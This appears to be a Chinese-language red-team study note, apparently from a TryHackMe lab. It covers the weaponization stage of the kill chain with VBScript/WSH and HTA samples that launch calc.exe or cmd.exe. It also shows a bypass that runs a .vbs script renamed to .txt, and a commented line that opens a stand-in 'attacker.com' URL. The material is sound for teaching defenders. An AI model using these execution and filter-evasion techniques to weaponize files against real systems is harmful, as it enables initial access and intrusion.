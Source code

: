 #### 概述 (Overview)

武器化是网络杀伤链模型的第二个阶段。在此阶段，攻击者的目标是将恶意代码与可交付的载荷（如文档、脚本文件等）结合，生成用于利用目标系统并获取初始访问权限的“武器”。由于许多组织的环境策略会阻止直接执行 `.exe` 可执行文件，红队成员通常依赖于利用操作系统内置的脚本引擎和工具，将恶意功能隐藏在看似无害的文件中。

本笔记将重点介绍几种流行且有效的脚本技术，以及如何将这些武器化载荷投递到目标机器。

#### 常用脚本武器化技术 (Common Scripting Weaponization Techniques)

为了绕过 `.exe` 文件的执行限制，红队常利用 Windows 系统内置的脚本宿主环境和脚本语言。

##### 1. Windows 脚本宿主 (Windows Script Host, WSH)

- **是什么**: Windows 内置的管理工具和脚本执行环境，用于运行批处理文件以自动化和管理操作系统任务。
- **执行器**: `cscript.exe` (命令行脚本执行器) 和 `wscript.exe` (GUI 脚本执行器)。
- **支持的脚本语言**: VBScript (`.vbs`, `.vbe`), JScript (`.js`, `.jse`), WSF (`.wsf`) 等。
- **特点**: VBScript 引擎 (`vbscript.dll`) 以当前用户的权限级别运行脚本，这使得它对红队很有用。
- **示例：VBScript (VBS)**
    - **显示消息框**:
        
        VBScript
        
        ```
        Dim message
        message = "Welcome to THM"
        MsgBox message
        ```
        
        _(将代码保存为 `hello.vbs`)_ _执行_: `wscript hello.vbs` (弹窗) 或 `cscript hello.vbs` (命令行显示)
    - **执行可执行文件**:
        
        VBScript
        
        ```
        Set shell = WScript.CreateObject("Wscript.Shell")
        shell.Run("C:\Windows\System32\calc.exe "), 0, True ' 运行计算器
        ' shell.Run("cmd.exe /c start http://attacker.com"), 0, True ' 运行命令并在新窗口打开网页
        ' WScript.ScriptFullName 获取当前脚本的完整路径
        ```
        
        _(将代码保存为 `payload.vbs`)_ _执行_: `wscript payload.vbs` 或 `cscript.exe payload.vbs` (都会启动计算器)
    - **绕过 `.vbs` 屏蔽 (重命名为 `.txt`)**: _执行_: `wscript /e:VBScript payload.txt` (指定使用 VBScript 引擎执行 `.txt` 文件，同样启动计算器)

##### 2. HTML 应用程序 (HTML Application, HTA)

- **是什么**: 包含 HTML 和脚本（JScript 或 VBScript）的可执行文件 (`.hta`)。它不像标准的 HTML 页面那样受浏览器安全模型的限制。
- **执行器**: `mshta.exe`。可以独立执行，也可以通过 Internet Explorer 自动执行。
- **特点**: HTA 是一种“常驻二进制文件”(Living-off-the-land Binaries, LOLBins)，利用系统内置程序执行恶意代码。
- **示例：执行 `cmd.exe`**:
    
    HTML
    
    ```
    <html>
    <body>
    <script>
    	var c= 'cmd.exe'
    	new ActiveXObject('WScript.Shell').Run(c);
    </script>
    </body>
    </html>
    ```
    
